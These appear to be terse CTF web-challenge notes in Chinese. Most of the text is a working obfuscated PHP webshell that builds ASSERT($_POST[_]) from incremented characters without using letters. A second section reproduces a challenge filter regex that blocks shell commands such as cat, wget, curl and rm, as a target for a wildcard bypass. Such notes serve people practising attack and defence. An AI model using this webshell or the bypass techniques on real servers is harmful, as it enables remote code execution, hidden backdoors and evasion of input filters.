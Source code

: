 自增逃逸

```php
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;

$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;

$_=$$____;
$___($_[_]); // ASSERT($_POST[_]);
```



# 54 占位符逃逸

```php
/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i
```


[bash绕过方式]: https://blog.51cto.com/u_15127695/4278470	"bash绕过方式"